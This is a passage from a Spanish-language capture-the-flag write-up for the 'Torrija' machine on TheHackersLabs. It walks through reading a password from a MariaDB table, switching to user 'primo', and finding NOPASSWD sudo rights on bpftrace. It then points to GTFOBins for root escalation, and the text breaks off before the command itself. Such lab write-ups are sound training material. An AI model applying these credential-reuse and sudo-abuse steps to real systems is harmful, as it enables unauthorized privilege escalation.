 Veamos el contenido de esa tabla:
```bash
MariaDB [Torrijas]> select * from primo;
+----+---------+----------------+
| id | usuario | contraseña     |
+----+---------+----------------+
|  1 | primo   | ************** |
+----+---------+----------------+
1 row in set (0,000 sec)
```
Hemos encontrado la contraseña del otro usuario.

Probémosla:
```bash
premo@Torrija-TheHackersLabs:~$ su primo
Contraseña: 
primo@Torrija-TheHackersLabs:/home/premo$ whoami
primo
```
Ahora somos el **usuario primo**.

<br>

<h2 id="bpftrace">Escalando Privilegios Abusando de Permisos Sudoers sobre Binario bpftrace</h2>

Veamos qué privilegios tiene este usuario:
```bash
primo@Torrija-TheHackersLabs:/home/premo$ cd ../primo/
primo@Torrija-TheHackersLabs:~$ sudo -l
sudo: unable to resolve host Torrija-TheHackersLabs: Nombre o servicio desconocido
Matching Defaults entries for primo on Torrija-TheHackersLabs:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User primo may run the following commands on Torrija-TheHackersLabs:
    (root) NOPASSWD: /usr/bin/bpftrace
```
Podemos usar el **binario bpftrace** como **Root**.

Si buscamos en la **guía de GTFOBins**, encontraremos una forma de escalar privilegios:
* <a href="https://gtfobins.github.io/gtfobins/bpftrace/" target="_blank">GTFOBins: bpftrace</a>

Usaremos el siguiente comando:

<p align="center">